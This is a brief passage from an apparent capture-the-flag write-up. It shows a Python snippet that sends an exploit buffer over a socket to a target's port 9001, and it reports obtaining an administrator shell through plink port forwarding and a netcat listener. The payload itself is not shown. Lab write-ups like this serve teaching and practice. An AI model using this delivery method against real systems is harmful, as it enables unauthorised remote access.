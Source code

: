 ```

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,9001))
    s.send(exploit)

except Exception as e:
    print(sys.exc_value)
```

With plink remote port forwarding port 9001, the exploit ready to go, and a netcat listener started I ran the script and received a shell as administrator with access to the root flag.

<img title="" src="file:///home/sixstringacks/share/git/tmp_assets/ed70b2b89e370085855467bdc2f9d0bd3c80c274.png" alt="2021-08-31_10-31.png" width="696">
